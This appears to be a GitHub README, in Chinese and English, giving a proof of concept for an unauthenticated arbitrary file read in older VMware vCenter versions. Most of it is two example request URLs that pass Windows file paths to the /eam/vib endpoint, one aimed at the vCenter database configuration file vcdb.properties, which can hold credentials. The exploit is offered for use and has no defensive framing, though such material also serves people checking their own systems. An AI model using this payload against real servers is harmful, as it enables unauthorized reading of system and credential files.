





# VMware vCenter 低版本存在未授权任意文件读取漏洞
# Arbitrary File Read vulnerability in VMware vCenter(Unauthenticated)

## Poc from:
https://twitter.com/ptswarm/status/1316016337550938122

e.g.

```
https://www.jas502n.com/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
https://www.jas502n.com/eam/vib?id=C:\Windows\win.ini
```






